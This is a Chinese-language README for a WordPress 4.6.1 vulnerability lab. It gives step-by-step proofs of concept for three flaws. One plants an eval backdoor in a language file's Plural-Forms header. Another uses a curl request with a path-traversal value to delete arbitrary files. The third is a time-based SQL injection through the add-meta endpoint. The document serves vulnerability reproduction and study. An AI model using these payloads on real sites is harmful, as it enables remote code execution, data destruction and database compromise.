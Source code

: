 ## 环境说明

- 镜像src/wordpress/4.6.1/

  - 后台地址

    http://127.0.0.1/wp-login.php

  - 账号/密码

    admin/admin



## gettext + create_function 构建 wordpress 后门

测试镜像

* src/wordpress/4.6.1/

参考链接

* [Wordpress <= 4.6.1 使用语言文件任意代码执行漏洞分析](https://paper.seebug.org/63/)

Poc

1. [下载语言文件](https://translate.wordpress.org/projects/wp/4.6.x/zh-cn/default)
2. 编辑 PO 文件，修改 `Plural-Forms`
   * e.g `"Plural-Forms: nplurals=1; plural=@eval($_GET[0]);\n"`
3. 在 wordpress 后台使用这个语言文件   
4. 访问 /index.php?0=phpinfo(); 进行测试




## Wordpress <= 4.9.6 任意文件删除漏洞

测试镜像

- src/wordpress/4.6.1/

影响版本

- wordpress <= 4.9.6

参考链接

- [Wordpress <= 4.9.6 任意文件删除漏洞](https://xz.aliyun.com/t/2413)

Poc

1、登录后台，在Dashboadrd->Media->Add New处上传任意图片（如 src/wordpress/4.6.1/demo.jpeg）

2、点击edit编辑上传的图片，记录url中的item或post参数，如post=4

3、在edit页面上查找包含_wpnonce的input标签，记录value

`<input type="hidden" id="_wpnonce" name="_wpnonce" value="c9d6fb475f">`

4、浏览器中提取登录后的cookie，执行curl修改thumb为要删除的文件（环境中预先创建了用于测试的test_del_file.txt文件）：

```shell
curl 'http://172.17.0.2/wp-admin/post.php?post=4' --cookie "登录后的cookie" -d 'action=editattachment&_wpnonce=c9d6fb475f&thumb=../../../../test_del_file.txt'
```

5、在编辑图片页面点击Delete Permanently删除上传的图片，触发漏洞删除文件test_del_file.txt



## Wordpress <= 4.8.2 SQL注入漏洞

测试镜像

- src/wordpress/4.6.1/

影响版本

- wordpress <= 4.8.2

参考链接

- [WordPress ≤ 4.8.2 POST META 校验绕过漏洞](http://www.freebuf.com/vuls/153959.html)

Poc

1、登录后台，在Dashboadrd->Media->Add New处上传任意图片（如 src/wordpress/4.6.1/demo.jpeg）

2、编辑上传的图片，记录url中的post或item参数，如post=4

3、在Posts->All Posts中点击任意文章进行编辑，记录url中的post参数值，如post=1，在html中搜索_ajax_nonce-add-meta，记录value，如 `ajax_nonce-add-meta=24fb4aa9b9"`

4、浏览器中提取登录后的cookie，执行curl添加字段，参数_ajax_nonce-add-meta为3中提取的值，metavalue开头数字为上传图片的item值，这里为4，post_id为3中获取的post：

```shell
curl 'http://172.17.0.2/wp-admin/admin-ajax.php' --cookie "登录后的cookie" -d '_ajax_nonce=0&action=add-meta&metakeyinput=%00_thumbnail_id&metavalue=4%20%251$%25s%20or%20sleep(10)%23&_ajax_nonce-add-meta=24fb4aa9b9&post_id=1'
```

5、在http://172.17.0.2/wp-admin/edit.php页面上查找包含_wpnonce的input标签，记录value

`<input type="hidden" id="_wpnonce" name="_wpnonce" value="233a3d3d36">`

6、使用获取的\_wpnonce参数访问`http://172.17.0.2/wp-admin/edit.php?action=delete&_wpnonce=获取的参数&ids=4%20%251$%25s%20or%20sleep(10)%23`触发漏洞（产生查询延迟）